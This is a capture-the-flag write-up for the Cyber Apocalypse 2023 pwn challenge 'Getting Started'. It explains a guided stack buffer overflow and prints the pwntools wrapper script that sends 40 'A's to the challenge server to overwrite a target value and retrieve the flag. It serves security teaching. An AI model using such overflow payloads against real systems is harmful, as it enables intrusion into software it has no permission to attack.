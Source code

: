 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Getting Started Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: pwn
challenge: Getting Started
tags: "pwn, legend, python"
date: 2023-03-27T00:00:00+00:00
last_modified_at: 2023-03-27T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2023</h1>

## Getting Started 
> Solved by Legend

Challenge description


> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

In this challenge a challenge binary is given and a  `wrapper.py` file is given the code for buffer overflow.

![](https://i.imgur.com/6RwoC4j.png)


Executing the binary shows the Stack frame layout.

![](https://i.imgur.com/wgdbdWW.png)


After that it shows the stack with Address and Value along with indicators to where is the start of the buffer and what is the Target that needs to be changed.

![](https://i.imgur.com/XMsmiMc.png)


Then it shows what happens if we put A’s and B’s as input.

![](https://i.imgur.com/WGVoYSc.png)


Then it asks us to enter A’s to get change the value in Target. I placed 40 A’s and it grave the testing flag.

![](https://i.imgur.com/uUVYySG.png)


Now same can we done in the given script to automate this.


    #wrapper.py#!/usr/bin/python3.8
    
    '''
    You need to install pwntools to run the script.
    To run the script: python3 ./wrapper.py
    '''
    
    # Library
    from pwn import *
    
    # Open connection
    IP   = '165.232.98.69' # Change this
    PORT = 32238      # Change this
    
    r    = remote(IP, PORT)
    
    # Craft payload
    payload = b'A' * 40 # Change the number of "A"s
    
    # Send payload
    r.sendline(payload)
    
    # Read flag
    success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')

Running the script gave the flag.

![](https://i.imgur.com/krCUZGU.png)


